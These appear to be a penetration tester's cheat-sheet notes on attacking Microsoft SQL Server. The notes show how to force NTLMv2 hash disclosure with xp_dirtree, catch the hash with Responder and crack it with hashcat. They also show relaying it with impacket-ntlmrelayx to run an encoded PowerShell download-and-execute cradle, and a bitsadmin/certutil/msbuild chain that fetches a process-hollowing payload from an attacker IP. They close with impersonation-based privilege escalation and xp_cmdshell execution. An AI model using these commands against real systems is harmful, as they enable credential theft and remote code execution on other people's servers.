     //Roles:
        select system_user; select user_name(); SELECT IS_SRVROLEMEMBER('public'); SELECT IS_SRVROLEMEMBER('sysadmin');
        
    //MSSQLSvc Account Hash Disclosure via UNC Path Injection:
        SQLSMBHash.exe - EXEC master..xp_dirtree "\\192.168.49.121\test";
            //catch: sudo responder -I tun0
            //crack:  hashcat -m 5600 /tmp/hash.txt /usr/share/wordlists/rockyou.txt --force
        //NTLMv2 (Net-NTLM) hash disclosure via xp_dirtree function that tries to list contents of a remote SMB share
        //NTLM authentication is used instead of Kerberos if IP is provided (not domain name)
        //other functions can be used too - https://gist.github.com/nullbind/7dfca2a6309a4209b5aeef181b676c6e
        //can be done via unprivileged user - and leaks the privileged database user's hash; catch w/ responder
        //try to crack hash - can't do PTH w/ NTLMv2 - but can relay!
        //Relay the Hash:
            //possible w/ NTLMv2 (unless SMB signing is enabled - usually only on DCs) - only if the service account exists on both systems
            ex. with PS shellcode runner:
                pwsh
                    $text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.226/run.txt') | IEX"
                    $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
                    $EncodedText = [Convert]::ToBase64String($bytes)
                    $EncodedText
                sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.189.6 -c 'powershell -enc ......=='
                //then initiate the sql command (SQLSMBHash.exe) and ensure multi/handler is running (worked w/ 64bit shellcode)
            //Another Example:
                sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.67.6 -c 'calc.exe'
                //omit the '-c' to perform a secretsdump
            //**Hollower Example:
                sudo proxychains impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.173.152 -c 'ping -n 2 192.168.49.121'
                sudo proxychains impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.173.152 -c 'bitsadmin /Transfer myJob http://192.168.49.121/file4.txt c:\windows\tasks\enc2.txt'
                sudo proxychains impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.173.152 -c 'certutil -decode c:\windows\tasks\enc2.txt c:\windows\tasks\Hollow.csproj'
                sudo proxychains impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.173.152 -c 'C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe c:\Windows\Tasks\Hollow.csproj'

    //Escalation & RCE:
        //Privilege Escalation:
            'Execute As' statement - execute in context of another user - requires Impersonate permission (not default)
            -Type 1: EXECUTE AS LOGIN:
                SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
                    //gives all logins that allow impersonation (but not who is allowed to do it)
            -Type 2: EXECUTE AS USER:
                2 prereqs: 
                    //impersonation must have been granted to our user for a different user that has additional role memberships, preferably the sysadmin role.
                    //To fully compromise the database server, the database user we impersonate must be in a database that has the TRUSTWORTHY property set.
                        //The only native database with the TRUSTWORTHY property enabled is msdb.
        //Code Execution: 
            //see examples in SQL.exe
            -Method 1: xp_cmdshell
                //requires sysadmin role membership
                //disabled by default since MSSQL 2005 - BUT sysadmin role (sa) allows us to re-enable it
            -Method 2: sp_OACreate
                //requires sysadmin role membership
